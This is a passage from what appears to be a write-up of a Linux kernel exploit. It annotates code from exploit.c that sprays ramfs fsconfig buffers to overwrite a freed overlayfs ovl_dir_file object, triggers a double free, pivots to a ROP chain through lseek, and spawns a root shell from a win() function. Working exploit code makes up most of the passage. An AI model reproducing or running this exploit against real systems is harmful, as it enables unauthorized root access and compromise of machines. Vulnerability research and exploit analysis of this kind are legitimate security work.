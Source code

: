 - Prepare for the overwrite [exploit.c#L861](./exploit.c#L861):
```c
  int overwrite_ovl_dir_file_fsfds[2];
  for (int i = 0; i < 2; i++) {
    overwrite_ovl_dir_file_fsfds[i] = syscall(SYS_fsopen, "ramfs", 0);
    if (overwrite_ovl_dir_file_fsfds[i] < 0)
      return false;
  }

  char overwrite_buf[256];
  memset(overwrite_buf, 0xFF, sizeof(overwrite_buf));

  struct ovl_dir_file *od = (struct ovl_dir_file*)overwrite_buf;
  od->realfile = fake_file_addr;
  overwrite_buf[sizeof(struct ovl_dir_file)] = 0;
```

- While testing the exploit, i found that i need to trigger the heap allocation 2 times to overwrite the `struct ovl_dir_file` object. I didn't dig deep to find out why.
- Beside `ramfs`, there are other choices. I pick `ramfs` because there are less code path which make the overwrite process faster.

- Trigger second free and overwrite `struct ovl_dir_file` object [exploit.c#L875](./exploit.c#L875):

```c
get_full_timesplice();
trigger_second_free(df_fsfd);
for (int i = 0; i < 2; i++)
  syscall(SYS_fsconfig, overwrite_ovl_dir_file_fsfds[i], FSCONFIG_SET_STRING, "source", overwrite_buf, 0);
```

- Save the file descriptor [exploit.c#L880](./exploit.c#L880):

```c
trigger_code_execution_fd = ovl_fd;
```

### Step8: Code execution

- [exploit.c#L917](./exploit.c):

```c
lseek(trigger_code_execution_fd, rop_stack, SEEK_CUR);
```

### Step9: Get root shell

- After returning from kernel space, `win` will run to get shell [exploit.c#L153](./exploit.c#L153):

```c
void win(void)
{
  char *sh_args[] = {"sh", NULL};
  execve("/bin/sh", sh_args, NULL);
}
```